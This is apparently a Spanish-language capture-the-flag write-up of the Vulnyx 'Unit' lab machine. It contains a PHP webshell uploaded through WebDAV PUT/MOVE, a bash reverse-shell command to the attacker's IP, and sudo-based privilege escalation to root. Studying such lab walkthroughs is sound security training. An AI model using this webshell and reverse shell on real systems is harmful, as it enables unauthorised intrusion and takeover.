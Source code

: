 ```yaml
---
title: Vulnyx - Unit
author: estx
date: 2024-04-29 12:10:00 +0800
categories: [Writeup, Vulnyx, Easy]
tags: [Linux, 'File Upload', 'Binary Abusing']
math: true
mermaid: true
image:
  path: /assets/images/Vulnyx/Easy/Unit/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hook Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnyx.

Técnicas usadas: **Information Leakage, Local Port Forwarding**

### Fase de Reconocimiento 🧣

Como primer punto, identificamos la dirección IP de la **`Máquina Vulnyx`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.69	08:00:27:c6:4f:1d	PCS Systemtechnik GmbH
```

a. Enumeramos los puertos que están abiertos.

```bash
❯ nmap -p- -sS --min-rate 5000 -Pn -n 192.168.100.68 -oG ports

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

b. Vemos las versiones de los servicios que se están ejecutando

```bash
❯ nmap -p22,80,8080 -sCV 192.168.100.69 -oN versions

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp   open  http    nginx 1.22.1
|_http-title: 415 Unsupported Media Type
|_http-server-header: nginx/1.22.1
8080/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
| http-methods: 
|_  Potentially risky methods: PUT MOVE
|_http-title: 415 Unsupported Media Type
```

c. Al visitar el sitio web sale un mensaje de `Unsupported Media Type`. En el output del comando anterior vemos que existen dos métodos HTTP `PUT` y `MOVE`

* Si consultamos en [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav) vemos que existen algunas vulnerabilidades al tener los dos métodos activos.

d. Si subimos algunos archivos con diferentes extensiones no nos dejará, pero, al subir un archivo `.txt` nos deja

```bash
❯ curl -T 'test.txt' 'http://192.168.100.69:8080/'
❯ curl -s -X GET 'http://192.168.100.69:8080/test.txt'
Hola
```

* Lo que haremos es subir una webshell en php con la extensión `.txt`, luego, cambiaremos la extensión con `MOVE`

```bash
❯ cat shell.txt
<?php system($_GET['cmd']); ?>

❯ curl -T 'test.txt' 'http://192.168.100.69:8080/'
❯ curl -X MOVE --header 'Destination:http://192.168.100.69:8080/shell.php' 'http://192.168.100.69:8080/shell.txt'
```

e. Con esto nos entablamos una reverse shell

```bash
❯ curl -s -X GET "http://192.168.100.69:8080/shell.php?cmd=bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/[IP Atacante]/4443%200>%261'"
------------------------------------------------------------------------
❯ nc -lvnp 4443
www-data@unit:~/unit$
```

### Escalada de Privilegios 💹

a. Ahora realizamos un tratamiento de la TTY en la reverse shell

```bash
www-data@unit:~/unit$ script /dev/null -c bash
www-data@unit:~/unit$ ^Z
[1]  + 44624 suspended  nc -lvnp 4443
❯ stty raw -echo;fg
[1]  + 44624 continued  nc -lvnp 4443
                                     reset xterm

www-data@unit:~/unit$ export TERM=xterm-256color
www-data@unit:~/unit$ source /etc/skel/.bashrc
```

b. Listamos los permisos a nivel de sudoers de este usuario

```bash
www-data@unit:~/unit$ sudo -l

User www-data may run the following commands on unit:
    (jones) NOPASSWD: /usr/bin/xargs
```

* En [GTOFBins] vemos una forma de escalar privilegios para convertirnos en el usuario `jones`

```bash
www-data@unit:~/unit$ sudo -u jones /usr/bin/xargs -a /dev/null bash
jones@unit:/var/www/unit$
```

c. Vemos los permisos a nivel de sudoers de este usuario

```bash
jones@unit:/var/www/unit$ sudo -u root /usr/bin/su root
root@unit:/var/www/unit# cat /root/root.txt 
0d65e83f34a9f15f04ca3ec89cc25595
```

### Extras 🌟

1. El archivo de configuración de `nginx` se encuentra en `/etc/nginx/sites-available/default`

```bash
if ($request_uri !~ ^/[^?]*\.txt(?:\?.*)?$) {
    return 415;
}
```

> La regex `^/[^?]*\.txt(?:\?.*)?$` se encarga de reconocer si la url termina en .txt, caso contrario, devuelve el código de estado `415: Unsupported Media Type`
{: .prompt-info }

2. Una forma de fuzzing para saber que archivos podemos subir o no se haría así

```bash
❯ wfuzz -c -t 10 --hc=415 -w /usr/share/seclists/Fuzzing/extensions-most-common.fuzz.txt "http://192.168.100.69:8080/a.FUZZ"

==============================================================
ID           Response   Lines    Word    Chars    Payload
==============================================================
000000003:   404        7 L      11 W    153 Ch    "php"
000000007:   404        7 L      11 W    153 Ch    "txt"
```

* Con esto sabemos que podemos subir archivos `.php` o `.txt`, sin embargo, en este caso no se pueden subir archivos `.php` directamente, si no, se debe cambiar la extensión después.

